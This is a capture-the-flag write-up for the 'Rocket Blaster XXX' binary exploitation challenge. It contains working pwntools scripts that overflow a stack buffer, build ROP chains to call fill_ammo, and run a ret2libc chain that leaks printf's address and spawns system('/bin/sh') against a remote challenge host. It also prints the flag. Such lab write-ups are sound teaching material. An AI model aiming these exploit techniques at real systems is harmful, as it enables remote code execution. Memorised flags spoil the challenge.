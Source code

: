 # Rocket Blaster XXX
> Write-up author: jon-brandy

## Lessons Learned:
1. ROP gadgets.
2. Manipulate return address.
3. Popping 3 gadgets.

## DESCRIPTION:

<p align="justify">Prepare for the ultimate showdown! Load your weapons, gear up for battle, and dive into the epic fray—let the fight commence!</p>

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2cdc17fb-5d88-45ec-8a5e-7064831289ec)

> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b1dcc35f-4b1c-4a7d-8c56-d1ebb6adf6d9)

2. Upon reviewing the decompiled code on ghidra, we can see the main() function only accepts 1 input then terminate the process.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5f536ba1-7a27-4e01-8a2e-948f1ff74397)


3. Reviewing other functions, we noticed a function named `fill_ammo` which opens the flag file then print it's content.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/227056a6-41a1-48c7-aeaa-b27fe8e5fabd)


4. Seems the objective here is to return to `fill_ammo`. Noticed the `fill_ammo` function accepts 3 params, those 3 also used for a checker.
5. However since there is no canary and PIE is disabled, hence it's very easy for us to pwn the binary.

> GET RIP OFFSET --> 40

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/36e46731-9e73-47e8-b89a-fbf0904df6e2)


6. Great! Next, let's search for useful gadgets.
7. Popping 3 values to param, means we need RDI (as the 1st arg), RSI (as the 2nd arg), and RDX (as the 3rd arg).

> CHECK FOR GADGETS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/65206058-c5e4-499d-932a-6e217ab06019)


8. Nice! The gadgets are available.
9. We can do simple ROP then, here's the crafted script.

> SCRIPT

```py
from pwn import *

exe = './rocket_blaster_xxx'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'
# context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = process(exe)

rop = ROP(elf)
p = flat([
    cyclic(40),
    rop.find_gadget([
        'ret'
    ]).address,
    rop.find_gadget([
        'pop rdi',
        'ret'
    ]).address,
    0xdeadbeef,
    rop.find_gadget([
        'pop rsi',
        'ret'
    ]).address,
    0xdeadbabe,
    rop.find_gadget([
        'pop rdx',
        'ret'
    ]).address,
    0xdead1337,
    elf.sym['fill_ammo']
])

sh.sendline(p)
sh.interactive()
```

> REMOTE TEST

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/47027ad9-d23b-42e8-8da2-7cc3e26364f2)

10. As you can see, we got the flag!.

> ALTERNATE SCRIPT (much shorter using ropstar).

```py
from pwn import *

exe = './rocket_blaster_xxx'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'
# context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

# sh = process(exe)
sh = remote('94.237.54.176',59344)

rop = ROP(elf)
rop.call(rop.ret.address)
rop.fill_ammo(0xdeadbeef,0xdeadbabe,0xdead1337)

p = cyclic(40) + rop.chain()

sh.sendline(p)
sh.interactive()
```

### GAINED RCE

1. Remembering there is no canary, no PIE, and RDI is available. We can perform ret2libc here.
2. Simply leak the printf@got address to calculate the libc base.
3. Then execute another ROP to perform `system("/bin/sh")`.
4. Here's the crafted script.

> SCRIPT (RCE)

```py
from pwn import *

exe = './rocket_blaster_xxx'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'
# context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

# sh = process(exe)
sh = remote('94.237.54.176',59344)
rop = ROP(elf)

p = flat([
    cyclic(40),
    rop.find_gadget(['pop rdi', 'ret'])[0],
    elf.got['printf'],
    elf.plt['puts'],
    elf.sym['main']
])

sh.sendline(p)
sh.recvuntil(b'testing..')
sh.recvline()

leak = unpack(sh.recv(6) + b'\x00' * 2)
success(f'LIBC LEAK --> {hex(leak)}')
libc.address = leak - libc.sym['printf']
info(f'LIBC BASE --> {hex(libc.address)}')

p = flat([
    cyclic(40),
    rop.find_gadget(['ret']).address,
    rop.find_gadget(['pop rdi', 'ret']).address,
    next(libc.search(b'/bin/sh\x00')),
    libc.sym['system']
])

sh.sendline(p)
sh.interactive()
```

> RESULT




## FLAG

```
HTB{b00m_b00m_b00m_3_r0ck3t5_t0_th3_m00n}
```
